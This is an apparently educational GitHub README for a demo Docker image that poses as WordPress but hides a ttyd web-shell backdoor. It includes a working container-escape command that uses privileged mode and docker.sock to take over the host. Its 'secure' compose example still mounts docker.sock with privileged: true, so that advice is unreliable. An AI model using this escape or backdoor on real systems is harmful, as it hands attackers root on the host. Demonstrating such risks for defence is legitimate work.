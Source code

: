 > 🇺🇸 English version → [README.md](./README.md)

> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress (Backdoor Demo Project)

This project is an educational demonstration of **how a malicious container image can compromise the host system**. It features an all-in-one Docker container that looks like a WordPress environment, but hides a `ttyd` shell backdoor. It also demonstrates how developers can safely access containers using SSH LocalForwarding to avoid being exploited.

---

## 📦 Project Structure

```text
.
├── Dockerfile           # WordPress + ttyd + Apache reverse proxy
├── docker-compose.yml   # Mounts docker.sock & runs in privileged mode
├── init.sql             # Initial database setup for WordPress
├── supervisord.conf     # Supervisor config to launch MariaDB, Apache, and ttyd
├── README.md            # This file
```

---

## 🚀 Quick Start (for local testing only)

### 1. Build

```bash
docker compose build
```

### 2. Launch

```bash
docker compose up -d
```

### 3. Secure Access via SSH LocalForwarding

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

Open your browser and navigate to:

```
http://localhost:8888/shell/
```

---

## 🧨 From the Attacker's Perspective

If the `docker-compose.yml` is configured like this:

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

Then an attacker could simply visit:

```
http://<your-public-ip>:8899/shell/
```

to access a web-based Bash shell.

Worse, if the container runs with `--privileged` and mounts `/var/run/docker.sock`, the attacker could execute:

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* A file will be created on the host at `/root`
* All logged-in users will see a broadcast message

---

## 🛡️ How Developers Can Protect Themselves

* Avoid using untrusted Docker images
* Do not expose container ports publicly
* Bind to `127.0.0.1` and use SSH LocalForwarding for access

### Example of a Secure `docker-compose.yml`:

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # Localhost only
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## 📚 Further Reading

This project is accompanied by a blog post for deeper understanding:

👉 [Container-backdoor-ssh.md](./Container-backdoor-ssh.md)

---

## ⚠️ Disclaimer

This project is for **security education and demonstration purposes only**. Do not use it in production environments.

The author is not responsible for any damage caused by misuse of this project.

---

